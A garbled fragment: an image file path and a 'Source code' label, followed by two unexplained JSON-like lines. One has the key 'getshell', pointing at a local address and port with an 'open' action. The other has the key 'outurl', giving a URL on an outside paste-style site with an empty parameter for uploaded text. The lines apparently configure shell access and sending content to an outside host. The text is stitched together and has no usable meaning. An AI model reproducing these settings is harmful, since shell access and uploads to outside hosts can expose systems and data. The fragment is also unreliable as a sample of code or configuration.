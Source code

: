 {"all":{"getshell":"r t 127.0.0.1 8888~open"}}
{"all":{"outurl":"http://kl1p.com/m9s8?save=true&id=96501&type=code&name=m9s8&nid=&param=text%2Fplain&client=web&text="}}
